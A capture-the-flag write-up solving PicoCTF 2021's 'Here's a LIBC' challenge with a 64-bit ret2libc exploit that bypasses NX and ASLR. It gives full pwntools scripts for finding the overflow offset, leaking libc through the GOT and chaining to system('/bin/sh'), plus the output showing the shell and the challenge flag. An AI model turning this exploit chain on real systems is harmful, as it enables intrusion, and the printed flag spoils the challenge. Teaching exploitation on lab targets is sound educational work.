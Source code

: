 ```yaml
---
title: Ret2libc 64 bits (NX & ASLR)
description: Exploiting a buffer overflow using ret2libc with ASRL and NX enabled.
---
```


# Ret2libc 64 bits (NX & ASLR)

## Summary

Exploiting a buffer overflow using `ret2libc` with `ASRL` and `NX` enabled.

## Challenge

### Description

!!! note ""
    Challenge : [Here's a LIBC](https://play.picoctf.org/practice/challenge/179) from PicoCTF 2021.

I am once again asking for you to pwn this binary.

- [vuln](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/vuln) [libc.so.6](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/libc.so.6) [Makefile](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/Makefile)
- `nc mercury.picoctf.net 24159`

## Writeup

We do not have access to the source code, however we have the binary and the `libc`.

Let's have a look at the binary :

```
$ pwn checksec vuln
[*] '.../picoctf/Heres_a_LIBC/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
```

`NX` is enabled, so we can't run our shellcode on the stack. Also, `ASLR` is enabled on the remote TCP service.

To run the binary, I needed to remove a library with [patchelf](https://github.com/NixOS/patchelf).

```
$ ls
libc.so.6  vuln
$ ldd vuln
        linux-vdso.so.1 (0x00007ffc9eded000)
        libc.so.6 => ./libc.so.6 (0x00007f3b9fe00000)
        /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007f3ba03e0000)
$ ./vuln
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!

$ patchelf --remove-rpath /lib64/ld-linux-x86-64.so.2 vuln
$ ./vuln
WeLcOmE To mY EcHo sErVeR!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAa
^C
```

Let's try to calculate the size of the padding of the buffer overflow. Source code :

```python
#!/usr/bin/env python3
from pwn import process, p64, cyclic, cyclic_find


PROGRAM = "./vuln"

def find_padding_size():
    proc = process(PROGRAM)
    pattern = cyclic(0xFF)

    proc.sendlineafter(b"WeLcOmE To mY EcHo sErVeR!\n", pattern)
    proc.wait()

    core = proc.corefile
    seg_addr = int(f"0x{hex(core.fault_addr)[-8:]}", 16)

    return cyclic_find(seg_addr)


if __name__ == "__main__":
    padding = find_padding_size()
    print("Padding size:", padding)
```

Execution :

```
$ python3 calc_padding.py
[+] Starting local process './vuln': pid 105001
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 105001)
[+] Parsing corefile...: Done
...
Padding size: 136
```

---

To bypass `NX`, we will use a ROPChain. To bypass `ASLR`, we will leak the address of a function (in the GOT) to calculate the base address of `libc` and call the `main` function again to executes our final payload with the right offsets. Source code :

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import remote, p64, u64, ELF


"""
0x0000000000400913: pop rdi; ret;
0x000000000040052e: ret;
"""

PADDING = 136
HOST, PORT = "mercury.picoctf.net", 24159

vuln = ELF("./vuln")
libc = ELF("./libc.so.6")

# Gadgets
pop_rdi  = p64(0x0000000000400913)
ret      = p64(0x000000000040052e)
puts_plt = p64(vuln.plt['puts'])
main_plt = p64(vuln.symbols['main'])
puts_got = p64(vuln.got['puts'])

# Leak puts address inside libc
payload = b"A" * PADDING
payload += pop_rdi
payload += puts_got
payload += puts_plt
payload += main_plt

# Send the first ROP
proc = remote(HOST, PORT)
proc.sendlineafter(b"WeLcOmE To mY EcHo sErVeR!", payload)

# Parse puts address from stdout 
proc.recvline()
proc.recvline()
puts_addr = proc.recvline().strip().ljust(8, b'\x00')
print(f"puts_addr: {puts_addr}")

# Calculate libc base address (offset diff)
libc.address = u64(puts_addr) - libc.symbols['puts']
bin_sh   = p64(next(libc.search(b'/bin/sh')))
system   = p64(libc.symbols['system'])

# Send the second ROP with the right offsets, system('/bin/sh')
payload = b"A" * PADDING
payload += ret # stack alignment
payload += pop_rdi
payload += bin_sh
payload += system

proc.sendline(payload)
proc.interactive()
```

Execution :

```
$ python3 ret2libc.py
...
puts_addr: b'0Zy\x07\x18\x7f\x00\x00'
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
$ id
uid=1560(here-s-a-libc_5) gid=1561(here-s-a-libc_5) groups=1561(here-s-a-libc_5)
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_cf205091ad15ab6d}[*] Got EOF while reading in interactive
$
[*] Closed connection to mercury.picoctf.net port 24159
```